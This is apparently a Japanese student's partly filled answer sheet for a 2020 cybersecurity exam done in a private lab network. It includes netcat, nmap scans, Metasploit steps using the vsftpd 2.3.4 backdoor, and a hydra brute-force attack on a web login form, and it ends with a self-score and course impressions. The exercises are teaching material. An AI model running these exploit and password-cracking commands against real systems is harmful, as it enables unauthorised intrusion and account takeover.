 # CyberSecurity I Exam 2020 回答用紙

## 問1 [netcat]

### サーバー側コマンド

``sh
# nc -lvp 5200

```
### クライアント側コマンド

```sh
# nc 192.168.33.10 5200

```

## 問2 [Password Crack]

```md
<!--  ここに回答を記述 -->

```

## 問3 [Port Scanner]

### 1. ping scan

```sh
# nmap -sP 192.168.33.0/24

```

### 2. version scan

```sh
# nmap 192.168.33.1/24

```

## 問4 [Metasploit Framework]

```sh
# msfconsole
# search vsftp
# use vsftpd_234_backdoor
# show options
# set RHOSTS 192.168.33.5
# show optionsで変わったか確認
# exploit

```

## 問5 [Online Password Cracker]


### 1. コマンド

```sh
# hydra -L user.list -P passwd.list -s 8180 192.168.33.5 http-form-post "/admin/j_security_check:j_username=^USER^&j_password=^PASS^:Invalid username or password"
```

### 2. 解析結果

```sh
# ここに回答を記述

```

## 問6 [Packet Sniffer]

```sh
# ここに回答を記述

```

## 問7 [不正アクセス]

### 1. rootアクセスの件数

```md
<!--  ここに回答を記述 -->

```

### 2. 不正アクセスユーザーのTOP3

```md
<!--  ここに回答を記述 -->

```
### 3. IPアドレスのアクセス件数と発信国

```md
<!--  ここに回答を記述 -->

```

## 問8 [自己評価]

```md
30点

```

## 問9 [講義の感想]

```md
仮想環境構築、ncを使ったチャット、ポートスキャン、Hydra、wiresharkなど
正直難しいし覚えるのが多くて大変だった。１日でも休むと授業について生きなくなることがわかった。休まないようにしたい

```
